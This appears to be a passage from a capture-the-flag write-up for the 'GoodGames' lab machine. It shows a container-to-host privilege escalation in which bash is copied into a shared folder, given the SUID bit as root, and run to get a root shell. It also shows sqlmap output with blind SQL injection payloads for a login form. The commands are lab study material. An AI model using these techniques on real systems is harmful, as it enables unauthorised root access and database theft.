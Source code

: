 ```bash
augustus@GoodGames:~$ touch x
```

In container:

```bash
root@3a453ab39d3d:/home/augustus# ls
user.txt  x
```

The file did appeared, indicates that it's a mounted share folder between host and container

Now I can copy **bash** to the shared folder then give it SUID as root from the docker container

```bash
augustus@GoodGames:~$ cp /bin/bash .
```

```bash
root@3a453ab39d3d:/home/augustus# chown root:root ./bash
root@3a453ab39d3d:/home/augustus# chmod +s ./bash
```

Back to host machine

```bash
augustus@GoodGames:~$ ./bash -p
bash-5.0# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) egid=0(root) groups=0(root),1000(augustus)
bash-5.0# cat /root/root.txt
01aa6d576109f59feb575cc2b9a5d574
```


# Additional
---

## Dump Admin Password via Sqlmap

> If specified batch mode, it **won't be able to find union based payloads**, which will slow down dumping speed a lot
{: .prompt-warning }

```bash
sqlmap -r login.req --batch
```

```bash
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 650 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=a' AND 7176=(SELECT (CASE WHEN (7176=7176) THEN 7176 ELSE (SELECT 7374 UNION SELECT 3570) END))-- Nbgo&password=a

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=a' AND (SELECT 5947 FROM (SELECT(SLEEP(5)))IhVs)-- BPad&password=a
---
[09:50:53] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[09:50:53] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/goodgames.htb'

```
